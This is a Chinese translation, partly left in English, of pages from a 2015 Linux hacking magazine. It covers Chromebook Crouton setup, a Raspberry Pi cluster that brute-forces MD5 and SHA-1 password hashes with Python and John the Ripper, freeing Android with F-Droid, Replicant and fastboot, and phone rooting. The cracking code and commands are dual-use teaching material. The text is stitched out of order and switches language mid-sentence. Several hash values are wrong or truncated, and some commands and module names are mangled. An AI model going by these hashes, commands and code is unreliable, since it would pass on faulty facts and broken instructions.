

### 5 添加一个包管理器

默认目标仅包含命令行包管理器`apt-get`。对大多数人来说，第一步是打开一个终端并使用它安装一个更友好的选项，例如Ubuntu的`software-center`或Ubuntu/Debian的`Synaptic`。运行`sudo apt-get update`以确保你获取的是当前版本，然后运行`sudo apt-get synaptic`。

### 6 运行Synaptic

一旦安装了`Synaptic`，你就可以轻松访问发行版仓库中的所有软件。大多数目标都被精简了，以节省下载量并加快安装速度，但你可以在这里安装任何想要的东西。可以使用搜索按钮，或直接浏览分类查看可用内容。

## 恢复磁盘





### 1 备份到USB

插入至少2GB容量的USB闪存盘或SD卡，打开Chrome并在地址栏输入`chrome://imageburner`。Chrome OS会下载并安装适用于你的Chromebook的恢复镜像。如果你拥有不止一个型号的Chromebook，请为每个设备分别运行此操作：它会获取该设备的正确镜像。

### 2 创建恢复磁盘

下载完成后，镜像会被写入你的USB闪存盘。如果你不创建恢复磁盘，也可以从另一台电脑获取此镜像并手动复制，方法是按照`http://google.com/chromeos/recovery`上的说明操作，但你必须确保获取的是正确的镜像——它们特定于每个型号。


### 3 紧急情况下

如果Chrome OS损坏并出现以下令人害怕的“Chrome OS缺失或损坏”信息，请插入你的恢复介质。你也可以通过按下硬重置按钮或按键组合来强制恢复，如果你想无论如何都进行恢复的话，具体组合因型号而异。请查阅你的Chromebook文档以了解适用情况。

## Crouton：利与弊

将一台200英镑的Chromebook与一台完整笔记本电脑相比似乎不公平——它更接近上网本的价格范围，面向相似的市场——但我们还是这么做。在Chromebook上运行Ubuntu或Debian就像在真正的笔记本电脑上运行一样。唯一的区别在于使用了`chroot`以及启动时出现的吓人信息。这意味着你必须先启动到Chrome OS，然后打开shell来启动`chroot`会话，但Chromebook设计为挂起而非关机，所以这种情况并不常见。由于它通过Chrome OS使用硬件，你需要在其中设置网络连接等操作，但由于你可以随意在操作系统之间切换，这不是问题。这不是双启动；这是同时运行两个系统——方便得多。

这种设置的主要限制是存储空间不足以及对网络连接和云服务的依赖。虽然Chrome OS会透明地处理这个问题，但你需要为你的`chroot`发行版设置某种在线同步，使用`OwnCloud`、`SpiderOak`或`Dropbox`等服务。

在Chromebook上安装Linux的方法还有其他，但`Crouton`的方式侵入性最小，保持了现有操作系统的完整性（除了需要启用开发者模式）。你也可以尝试多个发行版，并在完成后将其移除，这也是这种方法的一个关键优势。最重要的是，`Crouton`由Chrome OS作者开发，并非第三方破解。Chrome OS的未来更新可能会暂时破坏你的`chroot`，但通过`Crouton`快速更新即可修复。


## Python：构建多树莓派集群

将一堆树莓派连接成群集——被亲切地称为“Bramble”——并利用它们的计算能力来破解密码。


曾几何时，将多台（不一定很强大的）计算机联网组合起来，以整合它们的计算能力来完成单一任务或一组相关任务，是一种常见做法。例如渲染农场和模拟农场，这些工作可以很容易地在节点之间分配。从某种意义上说，这类集群正变得不那么流行——专业或企业级硬件提供了更有利的每瓦性能比，而多核处理器之间共享数据的速度远快于网络电缆。但我们不要让潮流妨碍了老式的好玩手工。

### 棘手的问题

上述网络的总称是`Beowulf`集群。这个名字源自经典盎格鲁-撒克逊史诗中的同名英雄，他“手掌中把握有三十个人的力量”。当计算机硬件完全由树莓派组成时，RPi社区创造了一个新绰号：`Bramble`。虽然大多数台式计算机（取决于你选择的基准）比树莓派快大约一个数量级，但乘以Pi并因此学习Python中的分布式计算仍然是一项愉快且廉价的练习。在本演示中，我们使用了两个树莓派，由一个Pimoroni集线器供电（它为每个端口提供独立电源），并通过一个100Mb的五端口交换机连接（该交换机在eBay上花了5英镑）。该集线器最多可为五个树莓派供电，所以也许有一天这个Bramble会壮大起来。在本教程中，我们将让计算单元暴力破解两种众所周知的哈希算法：`MD5`和`SHA-1`。更具体地说，我们将尝试为给定的哈希值找到一个原像，这个哈希值将由一个（相当没骨气的）口令计算得出。虽然这两种算法都容易受到碰撞攻击（目标是找到任何一对具有相同哈希值的输入），但原像攻击要难得更多。`MD5`确实存在这样的攻击，但它仍然需要长得离谱的时间。在撰写本文时，`SHA-1`尚无已知的原像攻击。2012年的Flame恶意软件利用`MD5`的碰撞弱点来伪造微软安全证书。

### 处理一些代码

我们经常听说数据库遭到入侵，泄露的凭据中包含密码哈希。虽然使用加盐有助于防御某些攻击，但密码仍然容易受到基于字典的攻击，因此此类泄露应被视为严重事件。我们不会在Python代码中涵盖字典攻击，而是专注于基本的字符组合。我们鼓励你尝试在Python中实现字典——你可以下载预制列表，或使用`Crunch`等工具生成自己的列表。然后你可以编写一些简单的代码来拆分这个列表，并在工作节点之间分配工作。

加密哈希函数都可以通过`hashlib`库在标准Python安装中使用。例如，你可以通过以下方式在Python提示符中找到字符串`password1`的MD5哈希：

```
>>> import hashlib
>>> h = hashlib.md5('password1')
>>> h.hexdigest()
'7c6a180b369896a0a8c02787eafb0e4c'
```

将上面的`md5`替换为`sha1`，我们还可以得到相应的SHA-1哈希：

`'db4a668837a519ce4616751e5d1674807d6a8a'`。对于本教程，我们将尝试为以下MD5哈希找到一个原像：

`target_hash_md5 = 'f392b2d9f517f02c7dc21dfb2f0b0'`

假设我们只对由大小写字母和数字0到9组成的密码感兴趣。通过组合适当的ASCII码范围，可以毫不费力地做到这一点：

```
ascii = range(48,59) + range(65,91) + range(97,123)
chars = [chr(i) for i in ascii]
```


我们可以使用`itertools`模块来生成给定长度的所有可能组合。这可以省去一些可能令人烦恼的代码。`itertools.product`类返回一个生成器对象，因此它不会用巨大的列表压垮我们（或者更确切地说，压垮我们的树莓派和Bramble），而是每次迭代吐出一个组合。`repeat`参数是输出字符串的长度。因此我们反复检查其输出是否哈希到我们的目标哈希。

```
for j in itertools.product(chars, repeat=length):
    guess = ''.join(j)
    m = hashlib.md5(guess)
    hash = m.hexdigest()
    if hash == target_hash_md5:
        print "Great victory!"
        break
return(guess)
```

可以用上面描述的长度参数调用`md5cracker()`和`shacracker()`函数，而且修改它们来暴力破解一系列密码长度也相当直接。在一台采用单核2.1GHz Athlon处理器的笔记本电脑上，使用我们的字符集尝试所有三位密码大约需要0.7秒；四位需要40秒；五位字符大约需要40分钟。由于我们处理的是62个字符，后一个数字表明我们每秒大约处理380千哈希，因此我们估计破解六位密码大约需要两天，破解八位密码大约需要18年。对于SHA-1，同一台机器大约达到314kH/s，这恰好非常接近100,000乘以π。不那么老旧的硬件会好得多，但单独一个树莓派则差得多，MD5只有可怜的6kH/s，SHA-1也好不了多少，只有8kH/s。这一切都是在没有X服务器或其他守护进程运行的情况下进行的。显然，有些东西在ARM架构上运行得不太好——进一步调查超出了本文的范围，因为任何我们能做的事情，John the Ripper都能做得更好（稍后详述）。顺便提一下，Python文件的末尾还包含以下代码块：

```
if __name__ == '__main__':
    import timeit
    print(timeit.timeit(stmt = "shacracker(4)", setup="from __main__ import shacracker", number=1))
```

这意味着如果从命令行执行该文件，它将被`timeit`模块自动进行基准测试。人们可以尝试使用Cython生成C代码来加速这段代码，但收益可能有限。`hashlib`和`itertools`函数都是用C实现的，因此你几乎不可能加速它们。此外，即使你能做到，字符串操作在C中也有自身的缺点，因此除非你非常熟练地使用`malloc()`和`free()`，否则很难加快速度。不过，欢迎你尝试。

### 增加更多大脑

暴力破解哈希是“易并行”计算的一个例子：拆分工作简单到不拆分都令人尴尬。因此，你几乎可以预期哈希率会乘以你使用的树莓派数量，因为可以通过对生成器函数进行一些巧妙的调整来轻松分配工作。更确切地说，通过给每个单元分配一个固定的首位字符范围。例如，使用两个树莓派时，我们让其中一个处理以我们范围的前31个字符（0-u）开头的密码，另一个处理范围（v-Z）。这样，树莓派之间就不需要共享更多数据——它们可以各自专注于分配的任务，不会浪费时间互相通信。

我们将使用`dipsy`模块来处理所有并行性，这要求所有节点运行`dipsynode`程序。然后可以根据需要非常轻松地调用它们开始工作。我们将整个键空间划分为62个块，以便工作节点在需要时可以请求块。这意味着可以毫不费力地将更快（或更慢）的机器添加到集群中，因为否则就需要手动分配工作负载以避免并发问题。

我们为第一个字符创建一个单独的外部循环，内部则是处理其余字符的`itertools`循环。

```
def md5cracker(chunk_start,chunk_end,chars,length,thash):
    for j in range(chunk_start,chunk_end):
        for k in itertools.product(chars, repeat = length - 1):
            guess = chars[j] + ''.join(k)
            gh = hashlib.md5.new(guess).hexdigest()
            if gh == target_hash_md5:
                return guess
    return False
```

虽然你可以手动从一台树莓派跑到另一台，用适当的块参数调用此函数，但使用`dipsy`模块可以让工作分配变得不那么繁琐，你可以在光盘上找到该模块。通过以下命令安装它：

```
$ tar -xzvf dipsy-3.15.tar.gz
$ sudo pip install -e dipsy-3.15
```

我们已经为两个树莓派分配了地址`10.0.1.1`和`10.0.1.2`，这可以通过调整轻松实现

### 分布式计算

计算架构大致可以分为四类：单指令单数据（SISD）、单指令多数据（SIMD）、多指令单数据（MISD）和多指令多数据（MIMD）。这种分类起源于20世纪60年代，以发明者迈克尔·J·弗林的名字命名为弗林分类法。当时我们所知的多处理器系统并不存在，但机器仍然能够执行并行操作，其方式与首次出现在奔腾III中的英特尔SSE（流式SIMD扩展）非常相似。

处理器。今天的某些应用跨越了弗林分类的界限，但它们仍然提供了对现状相当准确的概述。本教程的主题——原像发现——很好地属于SIMD类别，我们对多个数据集执行相同的指令——即给定长度的离散密码集。然而，当今最常用的类别是MIMD。

在分布式计算谱系的一端，我们有共享内存模型，其中处理单元有自己的独立内存存储。如果需要在处理器之间共享数据，则需要调用消息传递接口。在另一端，我们有并行计算，其中有一个所有处理器都可以访问的共享内存。如果所有处理器都连接到同一块板上，这可能是基于总线的；或者是基于软件的，通过创建虚拟内存存储来保持一致性。无论哪种方式，总线争用和访问时间惩罚都意味着在并行计算模型下工作时，必须小心处理基于内存的操作。


## 不要害怕撕裂者

```
if __name__ == '__main__':
    cluster = dispy.JobCluster(md5cracker, callback=callback)
    jobs = []
    start = 0
    for i in range(nchunks):
        end = start + chunk_size
        job = cluster.submit(start, end, chars, length, target_hash, md5)
        job.id = i
        start = end
        jobs.append(job)
    cluster.wait()
    cluster.status()
```

network config files or with a simple:

```
$ ifconfig eth0 10.0.1.1/24
```

如果有多台 Pi，这可能需要大量显示器和键盘线缆的更换。实际地址在这里并不重要，只要大家都在同一个子网中，dispy 就能够发现所有的从节点。

一个简单的用于我们的 `md5cracker()` 函数的作业集群使用 `dispy` 创建如下：

```
cluster = dispy.JobCluster(md5cracker, callback=callback)
```

`callback` 参数告诉我们的集群在节点之一找到密码或用完工作时调用一个名为 `callback()` 的函数。回调函数也可以用于汇总更复杂场景中的中间或近似结果，但我们不必担心这一点。我们的回调函数只需要检查结果，如果它不是 False 就可以关闭所有其他作业：

```
def callback(job):
    if job.result:
        print "Great Victory!", job.result
        for j in jobs:
            if j.status in [dispy.DispyJob.Created, dispy.DispyJob.Running]:
                cluster.cancel()
```

由于 `md5cracker()` 函数需要 `itertools` 和 `hashlib` 模块，这些必须从函数内部导入。出于同步的原因，dispy 不允许你与工作节点共享任何作用域变量，因此 `md5cracker()` 函数接受以下附加参数：`chars`（字符列表）、`length`（密码长度）和 `thash`（目标哈希）。

最后，我们将使用以下样板代码在执行 `multi.py` 时启动系统，并在完成后显示一些统计信息：


# 并行处理与密码破解

`dispy` 模块有许多替代方案（`https://wiki.python.org/moin/ParallelProcessing`），但它被选中是因为它非常适合我们这种分布式哈希的简单并行。如果您想仅使用多核机器来研究并行处理，您应该查看 Python 原生的 `multiprocessing` 库。这使得设置共享变量比在进程非本地时更容易、更一致。如果您想更深入地探索并行处理的兔子洞，您应该掌握消息解析接口（`MPI`）。

## John the Ripper

`John the Ripper` 是一个流行的开源密码破解器。还有一个社区增强版，提供了 GPU 破解支持，以及一些额外的哈希和密码类型。该版本（代号 `Jumbo`）的源代码可在项目网站 `www.openwall.com/john` 上获得。我们可以在 Pi 上从源代码编译它。`Raspbian` 默认包含 `gcc`，但我们

## 其他 Bramble 项目

### Office document cracking (10 Raspberry Pis)

`http://bit.ly/10PICluster`

Shane 的项目使用 JiT 的一个补丁版本来破解受密码保护的 MS Office、LibreOffice 和 PDF 文档。MS Office 2007 引入了 128 位密钥的 AES 加密，ouch！

### Tower of Pi (10 Raspberry Pis)

`http://bit.ly/10PITower`

这使用了 9 台 RPi 从节点和 1 台 Cubie 板作为 `MPI` 处理的主控制器。它有一个漂亮的 16x2 RGB 显示屏用于状态信息。现在它已被重新用作 32 节点的 Cubical Monolith 项目。


此外还需要 `libssl` 和 `libcrypto` 头文件。以下命令将在 `Raspbian` 上安装这些，前提是你有可用的互联网连接：

```
$ apt-get update
```

```
$ apt-get install libssl-dev
```

从网站下载源代码，然后解压并像这样开始漫长的编译过程：

```
$ tar -xzvf john-8VER-jumbo-SREL.tar.gz
```

```
$ cd john/src
```

```
$ make generic
```

这在标准频率的 Pi 上大约需要半小时。构建完成后，我们可以使用以下命令测试安装：

```
$ cd ../run
```

```
$ ./john -test
```

我们新挤出的二进制文件将对其所有可用算法进行基准测试。`RawMD5` 在我们的设备上得分约为 330kH/s，比我们的 Python 实现高出约 50 倍。对于 `SHA-1`（`--mode=raw-sha`），`John` 实现了令人尊敬的 190kH/s。现在制作一个文本文件 `target.md5`，其中包含一行我们之前使用的目标 MD5 哈希，以 392b2 开头。我们可以通过使用增量模式和 Alnum 字符集来实现仅字母数字的字符集。

```
$ ./john --incremental=alnum --length=6 --format=raw-md5 target.md5
```

这在普通的 Raspberry Pi 上可能需要大约两天才能完成，而且仍然找不到所需的原像。这仍然是留给您，亲爱的读者，一个挑战。然而，您的挑战因 JTR 极其有用的 `--node` 选项而变得更容易，这使您能够实现一些原始并行。例如，如果我们用五台 Pi 饱和我们的交换机，我们可以在

the previous code, replacing n with the number of the Raspberry Pi on which it is being run. This will cause John to work on only the relevant fifth of the possible inputs, so that we could realistically expect to get through all six-character alphanumeric passwords in about 10 hours.

您可以使用 `md5sum` 命令生成 MD5 哈希。例如：

```
$ echo -n "test"|md5sum
096f6bcd4621d373cade4e832627b4f6 -
```

将此结果粘贴到文件 `test.md5` 中，不要包含末尾的空格和破折号（`md5sum` 最常用于哈希文件，文件名通常会放在这些字符之后 – 如果这让你困扰，可以添加 `|cut -d ' ' -f1`）。现在运行以下命令来说服自己 John 确实能够正确处理这些哈希。

```
$ ./john --incremental=alnum --length=4 --format=raw-md5 test.md5
```

## 单词有效

不提及 JTR 更智能的词表模式是不合适的。网站上有许多词表可用，你也可以定义用于组合它们的变形规则。甚至可以使用混合模式结合一些增量字符，以在宇宙终结前最大化成功几率。截至撰写时，最令人印象深刻的 MD5 基准接近 2GH/s（这是借助 16 块 Radeon 7550 的结果）。凭借如此强大的性能，使用我们一直在使用的 62 个字符的八字符密码可能在一周内就能恢复。更快的技术总是近在咫尺，因此八字符密码是安全的这一老说法不再成立。总之：给自己找一个密码管理器并保持安全，孩子们。

## David Gull's 40-Pi cluster

`http://bit.ly/40PiCluster`

David 的目标是制作一个行为完全像真品的模型超级计算机。这台大家伙有 12 个 1TB 驱动器和 6 个外部以太网端口。CNC 激光切割机用于制作时尚的外壳。


## Southampton University Iridis-Pi Lego Supercomputer (64 Pis)

`http://bit.ly/64PISuperComputer`

整个东西仅花费 £2,500 建造，并在所有 12 个节点上运行 `HPL` 矩阵求逆基准测试时达到 1.14Gflops/s。它使用较旧的 256MB 型号，因此内存稀缺。


## 免费的 Android

Android 变得越来越不开源了吗？我们认为它正朝这个方向漂移，并调查 Linux 社区对此能做些什么。


我们喜欢把 Android 吹捧为开源在商业世界取得成功的例子，而且是在一个竞争极其激烈的领域。关于“今年会是 Linux 桌面之年吗？”的种种讨论逐渐淡去，因为一个基于 Linux 的操作系统，尽管不是我们熟悉的 GNU/Linux，却开始一家手机一家手机地接管世界。

然而，我们想得较少的是，虽然 Android 使用开源内核，而且操作系统的大部分也是开源的，但其中越来越多的部分正在变成闭源，而它所依赖的网络服务也是如此。

智能手机和平板电脑是联网设备——当不联网时它们的功能严重受限，而 Android 手机默认使用 Google 服务。这些服务不是开源的——`GPL` 对通过网络提供的服务并不适用，因为软件并未被分发，只有其输出被分发。因此，你的开源手机依赖于运行闭源服务的服务器群。是的，你可以选择使用不同的邮件提供商来代替 Gmail，但 Google 地图和导航有没有开源替代品呢？`OpenStreetMap` 做得不错，但无论是覆盖范围还是精致程度都无法与 Google 地图和导航相比。

> “你的开源手机依赖于运行闭源服务的服务器。”

再见了。

### 开源与闭源

2007 年 Google 开源 Android 是明智之举：苹果 iPhone 已经发布，它希望避免移动生态系统像桌面几乎发生的那样被一个操作系统主导。因此它将 Android 作为开源发布，并且迅速成长。现在 Android 已成为主导的操作系统，Google 想要收回控制权。它无法对内核以及从外部获得的任何其他开源组件做什么，但它一直在逐步将自己的软件转为闭源，一次‘更新’一次。


AOSP（Android 开源项目）仍然提供所有在开源许可证下发布的 Android 软件，但由于这是 Google 的代码，它可以自由地以不同的许可证发布——而这正是它一直在做的。每当 Google 将其中一个应用切换到闭源许可证时，AOSP 版本的开发实际上就停止了，也不会添加任何新功能。你可能已经注意到，最近几版 Android 操作系统更新——各种 Jelly Bean 版本和 Kit-Kat——在新增功能方面都乏善可陈。这并不是因为 Google 做得更少，而是因为它做的方式不同。它已将许多原本包含在基础版本中的软件移出基础版本，使用 Google Play 服务（这与 Google Play 商店不同）。对 Google 来说好处是，核心应用不再与 Android 版本绑定，可以随时更新（你现在会在 Play 商店找到它们全部），这样用户就不会因为手机制造商和运营商不愿或无法提供系统更新而陷入困境。

如果把这比作我们熟悉的桌面 GNU/Linux 世界，Android 更像是一个滚动发行版，像 Debian，而不像其他发行版采用的在新操作系统版本发布前仅对一组软件包进行错误修复更新的模式。

通过 Play 商店让软件包易于安装和更新也意味着它们可以被卸载，而在旧的方式下，只有对核心 Google 应用的更新可以被卸载，回退到随 Android 版本捆绑的版本。

很好：我们是否一定想离开 Google 经过充分测试且流行的生态系统的舒适区？对于只想让手机正常工作的许多用户来说，答案可能是否定的。你不是普通用户，否则你不会在读一本电脑杂志，更不用说像这样的手册了。Linux 用户倾向于想要最好的，而不是最容易的，这也是 Linux 发展到今天的原因之一。

> “这并不是 Google 对 Android 的完全锁定。很大一部分仍然是开源的。”

下一个问题是，你是否想完全清除设备上的所有专有代码，还是你愿意减少对 Google 及其服务的依赖？两者皆有可能，但前者更困难。既然我们从不回避困难的问题，我们先处理这个问题，通过告诉你我们稍后再处理它。对于后一种选择，你想要的应用是 F-Droid（https://f-droid.org）。

## F-Droid

F-Droid 这个名字用于指代两个相互关联但不同的实体。它是 Android 应用的仓库，类似于 Play 商店的前身 Android Market，但有一个重要区别：里面的每一段软件都是自由开源的。其次，还有 F-Droid 客户端，用于浏览 F-Droid 目录（我们不能称其为市场或商店，因为里面的一切都是免费的）。该客户端在 Play 商店中不可用。你需要直接从网站安装它。为此，你必须允许设备从其他来源加载软件——进入 设置 > 安全 并勾选 ‘未知来源’。请注意，这可能被视为安全风险，因为你可以从任何地方安装任何东西：但这是你的手机，由你选择，由你有权安装你想要的东西——即使一些智能手机制造商对此看法不同。

现在访问 https://f-droid.org 并下载 apk 包。如果你使用手机浏览器执行此操作，可以直接打开文件进行安装。如果你下载到电脑上，通过 USB、文件共享站点或存储卡将其传输到手机。

## 自由选择

这并不是 Google 对 Android 的完全锁定。很大一部分仍然是开源的，只是 Google 软件及其使用的服务是闭源的。这意味着，正如以往一样，存在选择。如果你购买三星手机——而且相当多的人这样做——你会发现许多应用都是三星自己的。你可以安装 Google 的应用，但这不是强制性的，甚至不是必要的。亚马逊在 Kindle Fire 上更进一步，甚至拥有自己的 Play 商店版本。现在，亚马逊可能不是开源一切的闪亮灯塔，但它已经证明在没有 Google 锁定情况下运行 Android 是可能的。问题变成，我们能否做类似的事情——使用 Android 手机或平板电脑，而不受 Google 或任何其他人的闭源应用的锁定？

在我们能回答这个问题之前，还有一个更根本的问题——我们在乎吗？Google 的软件是可用的，而且



在你安装 F-Droid 或任何其他来自 Play 商店以外的软件包之前，你必须启用 ‘未知来源’。

## 硬件

并打开它。或者，在你的桌面浏览器中打开该网站并用手机扫描二维码。当你启动 F-Droid 时，你会看到三个标签：可用应用、已安装应用和有更新的应用。你可能会惊讶地发现已安装标签中已包含了一些程序：这是因为 F-Droid 上的许多开源应用也在 Play 商店中。更令人惊讶的是，其中一些显示有更新——即使 Play 商店显示它们已是最新，某些应用在 F-Droid 中有更新的版本。如果你尝试更新这些应用，你可能会发现首先需要卸载 Play 商店的版本，这会清除你所有的设置。一些备份程序，例如 `oandbackup`（当然在 F-Droid 中）允许你保存用户数据并在安装新版本后恢复。当然，你在 F-Droid 目录中找不到像 Play 商店那样多的应用，但数量相当可观并且在增长，而且 F-Droid 不仅显示所有可用和已安装的应用，它还有一个最近添加软件的列表。而且全部都是开源的。




质量很好——几乎没有提示计算器和放屁模拟器之类的东西。Play 商店中没有的一个不错的细节是“What's New”列表，显示最近两周内添加的应用——当然，这个间隔是可以配置的。

我们已经谈到了应用和仓库，但设备的核心——包含内核的 ROM 呢？它在很大程度上是开源的，特别是内核，这意味着有其他 ROM 可用，例如 CyanogenMod。（在 Linux Format, LXP177 中介绍）。自定义 ROM 的一个好处是，许多手机都附带了修改过的 ROM，包含制造商自己对 Android 应该是什么样、感觉如何以及如何工作的想法。自定义 ROM 去掉了这些，回到了更默认的设置（就像 Nexus 系列那样），通常更轻更快。一些 ROM 也会在其上添加自己的内容，但由于你选择运行不同的 ROM，你可以选择它与标准有多接近。自定义 ROM 的一个优点是它们通常提供 root 访问权限（见对面方框）——尽管我们目前在我的 Nexus 5 上运行的是标准 ROM，但已 root。

```
nets/hector FreeAndroid/replicant 0% for 1 in *.img
sudo fastboot flash $basename 51 .img
step 3
done
OKAY [ 0.000s]
sending 'boot' (2592 KB)...
OKAY [ 0.418s]
writing 'boot'...
OKAY [ 0.772s]
finished. total time: 0.772s
sending 'recovery' (1016 KB)...
OKAY [ 0.054s]
writing 'recovery'...
OKAY [ 0.545s]
finished. total time: 1.200s
sending 'system' (292532 KB)...
OKAY [ 2.485s]
writing 'system'...
OKAY [ 27.485s]
finished. total time: 29.978s
sending 'userdata' (18872 KB)...
```

使用终端将 Replicant 映像文件刷新到手机。

没有电信硬件驱动程序的移动操作系统和巧克力防火栅一样没用。在图形硬件方面也存在类似问题，尤其是在硬件加速方面。然而，进展已经取得，并且有一个免费的 Android 替代品——Replicant。（http://replicant.us）。由于硬件驱动程序的情况，这并不是对所有设备 Android 的即插即用替代品——截至撰写时，网站上列出了 11 台设备，并且并非所有功能在所有这些设备上都能正常工作，而不安装非自由固件。

## Replicant

使用 F-Droid 来确保你在 Android 设备上使用开源软件是朝着正确方向迈出的一步，但如果你想要一个完全自由的系统怎么办？这远非容易，因为专有软件在我们的设备中使用得如此广泛。一方面，有 Google 元素——所有通过 Play 服务运行并使用 Google 服务的软件。这可以处理，尽管你可能会失去一些你习惯的功能。更难处理的是硬件驱动程序，其中大多数使用专有 blob。这个问题与某些台式机和笔记本电脑硬件的问题类似，但通常更复杂。

> “你不会在 F-Droid 的目录中找到像 Play 商店那样多的应用，但数量在增长。”


需要此类固件的主要项目是 Wi-Fi、蓝牙和一些摄像头。安装 Replicant 与刷新自定义 ROM 差不多（因为 Replicant 基本上就是自定义 ROM，只是只包含开源代码）。与任何此类操作一样，你应该在开始前进行备份，最好是 Nandroid 备份，如果你有支持此功能的自定义恢复，因为刷新 ROM 会清除你的应用程序和设置。此外，在覆盖当前系统之前，请阅读有关固件的部分。安装过程因手机而异——三星设备使用`heimdall`程序，而 Nexus 硬件则使用`fastboot`进行更新。我们将在此查看如何在 Nexus 5 上安装，因为我们手边正好有一台。`fastboot`程序包含在 Android SDK 中，或在某些发行版的单独`android-tools`包中。它也可以从 Replicant 网站下载。你还需要一些要写入设备的映像文件，因此请前往 http://replicant.us/supported-phones/ 并按照链接前往你设备的 wiki 页面。从那里，遵循安装链接，然后是 Replicant。

## 隐私

人们给出想要远离 Google（和其他云服务）的原因之一是隐私。人们不希望自己的行动和通信被他人监视，这并不令人惊讶，尤其是在去年关于 Prism 和各种国家机构的披露之后。通过不使用 Google 的软件，你可能会认为自己重新获得了隐私，但没有移动电话用户拥有完全的隐私。就像你的手机可以在没有 GPS 的情况下通过使用蜂窝基站获得相当准确的位置一样，你的电信提供商也可以做到，而且你所有的对话、消息和数据仍然通过他们传输。NSA 和 GCHQ 不需要 Google，要想用移动电话保持完全隐私，唯一的方法就是不拥有它。这并不是说你应该放弃，但你应该对自己的期望保持现实。

Image link. Here, you need to download four image files: `boot.img`, `recovery.img`, `system.img`, `userdata.img` and an MD5 checksum file. Then click on the Base URL link and get `fastboot` from the `tools` directory. Save all the files to the same directory and `cd` to that directory in a terminal. If you downloaded `fastboot`, make it executable with `chmod +x fastboot`.

If you already have `fastboot` installed, replace `./fastboot` with `fastboot` in each of the following commands. Put the phone into fastboot mode by turning it off and then holding down the power and volume up buttons until the bootloader screen appears with "FASTBOOT MODE" at the top. Now connect the phone to your computer via USB. If you have not installed a custom ROM or rooted your device before, you will need to unlock the bootloader. If in doubt, look at the "LOCK STATE" line on the bootloader screen. If it shows locked, run this in your terminal: `sudo ./fastboot oem unlock`.

The phone will ask for confirmation – use the volume buttons to highlight your choice and power to apply it. Now flash the images to the device with these commands:

```
sudo ./fastboot flash boot boot.img
sudo ./fastboot flash recovery recovery.img
sudo ./fastboot flash system system.img
sudo ./fastboot flash userdata userdata.img
```

After each command completes, you should see "Write Success!" on the phone.

The third one takes a while – `system.img` is by far the largest of the files. Finally, clear the cache and reboot with:

```
sudo ./fastboot erase cache
sudo ./fastboot reboot
```

You should see the Replicant logo while booting, and then it loads to the home screen. You can tell you are no longer locked to Google by the way it does not ask you to sign in to a Gmail account first.

## Keeping the firmware

As mentioned, some functions require firmware files. Replicant does not provide these files, it does not even provide information on how to obtain them, although it does list the needed files on each device's wiki page. If your phone is already rooted, you can simply copy these files to a safe location and restore them after installing Replicant. You usually need to root the phone after installing Replicant to do this by installing a custom recovery program. I prefer TWRP, from


Replicant contains a decent-sized selection of apps and widgets by default, with many additional ones available in F-Droid.

http://teamw.in/project/twrp2 Download the correct image file for your device and flash it using `fastboot`, like so: `sudo ./fastboot imagefile`. Then you can reboot into the bootloader, select Recovery, go to the Mounts and Storage section to mount `/system` and then send each file from the computer with `adb`, available from the same place as `fastboot`. They are the companion programs. `sudo /adb push firmware.file /system/vendor/firmware/firmware.file` using the correct locations for your device.

If you switch the arguments and use `pull` instead of `push`, you copy the files from the phone to the computer, which is a good way of copying them off in the first place. `sudo /adb pull /system/vendor/firmware/file firmware.file`.


A custom recovery can also be used to make an Android backup for restoring your system to its previous state, should you wish, so it is well worth installing one before you start installing Replicant. Once you have Replicant booted, you can start to explore it. You will find it familiar territory – it is basically Android. There are a number of apps provided by default, with plenty more available through F-Droid. There is no need to install F-Droid with Replicant, it is included as the default repository and software manager with Replicant. If you want to return to a more default setup, you have a number of options. If you took a Nandroid backup, simply restore it. Or you can follow the usual procedure to install any of the custom ROMs. If you have a Nexus device, you can return to a default Android configuration by downloading and flashing the appropriate image from https://developers.google.com/android/nexus/images. These images are supplied as tarballs that contain the image files and a shell script to install them, it's just a matter of unpacking the tarball and running `sudo ./flash-all.sh`

If you find it too limited, at least you've been able to make a choice. If this is the case, do not give up on Replicant – check the website, as development is ongoing. It is good to know an open source phone OS is available, and always will be.

> “It is good to know an open source phone OS is available and always will be.”

## Rooting your phone

There is a lot of misinformation about rooting phones. Leaving aside any contractual issues with your phone supplier, rooting a phone does not make it less secure or compromise it. That is because adding root capabilities to the phone does not add them to any apps. It is like the `su` or `sudo` commands on your desktop. These allow you to run programs as root, but do not give super user rights to everything else. Adding root to a phone means if an app wants to run as root, it has to ask your permission, which you can give once or for future invocations too. If you do not give such permission within a few seconds, the request times out and is denied. For added security, the default setting of the `SuperSU` program allows root access only for the version of a program that asked for it. When you update that program, you are asked again. Nothing can run as root without your say-so.

## 黑客手册

2015

## Web

黑客！哦天，我们用了个不好的词？虽然我们绝不会提倡任何黑帽活动，但了解坏人喜欢做什么是有好处的，这样你就可以保护你的网站和在线资源免受他们的侵害。控制这些资源本身也很有好处，所以我们会向你展示如何设置自己的云。我们还将介绍几种从网站中提取有用数据以及从社交媒体中提取有用聊天信息的方法。

- Hack the web.........................................................66
- PHP: Custom website scraping........................................74
- OwnCloud 7: Own your data............................................78
- Django: Build a custom CMS...........................................82
- Python: Make a Twitter client........................................86

## HACK THE WEB

想知道坏人是如何做到的吗？加入我们进行一次合法的黑暗面之旅*，并在安全环境中入侵你自己的软件

操纵计算机系统在未经授权的情况下按你的意愿行事——有些人称之为黑客攻击，其他人称之为破解或渗透测试。不管你怎么称呼它，它现在正在世界各地发生。政府、企业、异见人士、无聊的极客和罪犯每天都在互相攻击，以及普通计算机用户。

